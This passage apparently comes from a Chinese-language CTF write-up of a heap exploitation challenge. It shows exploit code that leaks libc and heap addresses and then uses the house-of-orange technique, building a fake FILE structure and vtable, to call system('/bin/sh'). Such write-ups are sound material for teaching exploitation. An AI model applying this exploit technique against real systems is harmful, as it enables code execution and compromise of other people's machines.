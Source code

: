 形成overlapped chunk之后就简单啦，下面是泄露libc 以及heap。

```
#leak libc
    alloc(0x37,'x01'*0x37) #idx 1 0x030
    view(2)
    ru('Content: ')
    libc = uu64(r(6))
    lg('libc',libc)
    libc_base = libc - 0x3c4b78
    lg('libc_base',libc_base)
    _IO_list_all = libc_base + 0x3c5520

    #leak heap
    alloc(0x17,'x00'*0x17)#idx 5 0x070  = idx 2
    alloc(0x17,'x08'*0x17)#idx 12 0x090
    delete(12)
    delete(5)
    view(2)
    ru('Content: ')
    heap = uu64(r(6))
    heap_base = heap - 0x90
    lg('heap_base',heap_base)
```

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8house-of-orange%E8%BE%BE%E6%88%90%E5%88%A9%E7%94%A8"></a>利用house-of-orange达成利用

在得到libc以及heap之后，下面是利用house-of-orange来达成利用。

house-of-orange的原理就是通过unsorted bin attack改写_IO_list_all指针，然后通过触发malloc函数的报错基址调用overflow函数，因为我们已经能够控制IO_list_all指针，那么我们通过一系列手段也能控制overflow函数来执行我们的目标函数。

代码如下

```
#house_of_orange
    #now unsorted bin at 0x0b0
    delete(4)
    alloc(0x27,'x00'*0x18+p64(0x41)+'x00'*7) # must keep the fastbin size = 0x41
    lg('_IO_list_all',_IO_list_all)
    fake_file = '/bin/shx00'+p64(0x61) # fake_file
    fake_file += p64(0)+p64(_IO_list_all-0x10) #unsorted bin attack
    fake_file += p64(0)+p64(1) #bypass check
    fake_file = fake_file.ljust(0x38,'x00')
    alloc(0x38,fake_file)
    delete(6)
    payload_1 = 'x00'*0x28 + p64(heap_base+0x1d0) # point to fake_vtable
    payload_1 = payload_1.ljust(0x37,'x00')
    alloc(0x37,payload_1)
    delete(7)
    system = libc_base + 0x045390
    payload_2 = p64(0)*3 + p64(system) # fake_vtable
    payload_2 = payload_2.ljust(0x37,'x00')
    alloc(0x37,payload_2)
```

